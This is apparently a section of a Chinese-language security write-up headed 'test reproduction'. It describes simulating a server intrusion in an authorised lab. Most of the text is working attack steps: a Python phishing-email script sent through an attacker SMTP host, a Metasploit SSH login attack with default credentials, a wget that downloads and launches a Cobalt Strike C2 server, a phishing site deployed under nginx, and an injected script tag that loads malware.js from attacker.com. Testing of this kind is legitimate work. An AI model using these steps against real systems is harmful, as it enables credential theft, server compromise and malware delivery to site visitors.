 ## 测试复现
以下是在受控授权环境中模拟服务器入侵的步骤：
1. **环境准备**：
   - 搭建测试服务器（如Ubuntu虚拟机），模拟弱配置（如默认SSH密码或开放端口）。
   - 配置Web服务器（如Nginx）并托管简单页面。
2. **凭据窃取模拟**：
   - 发送伪装的钓鱼邮件，诱导管理员泄露服务器凭据：
     ```python
     import smtplib
     from email.mime.text import MIMEText
     msg = MIMEText("Reset your password: http://fake-host.com/reset")
     msg['Subject'] = 'Urgent: Server Account Reset'
     msg['From'] = 'support@fake-host.com'
     msg['To'] = 'admin@test-server.com'
     with smtplib.SMTP('smtp.attacker.com') as server:
         server.login('user', 'pass')
         server.send_message(msg)
     ```
3. **漏洞利用模拟**：
   - 使用Metasploit攻击弱配置的SSH服务：
     ```bash
     msfconsole
     use auxiliary/scanner/ssh/ssh_login
     set RHOSTS <SERVER_IP>
     set USERNAME admin
     set PASSWORD default_password
     exploit
     ```
4. **恶意活动部署**：
   - 在受损服务器上部署C2服务器：
     ```bash
     wget https://<attacker_repo>/cobaltstrike.jar
     java -jar cobaltstrike.jar
     ./teamserver <SERVER_IP> <password> /path/to/profile
     ```
   - 部署钓鱼网站：
     ```bash
     sudo apt install nginx
     cp phishing.html /var/www/html/index.html
     sudo systemctl start nginx
     ```
   - 注入水坑攻击代码：
     ```bash
     echo "<script src='http://attacker.com/malware.js'></script>" >> /var/www/html/index.html
     ```
5. **结果分析**：
   - 验证C2通道、钓鱼页面或水坑攻击是否正常运行。
6. **日志收集**：
   - 收集服务器管理、网络流量、DNS和邮件日志，分析入侵痕迹。
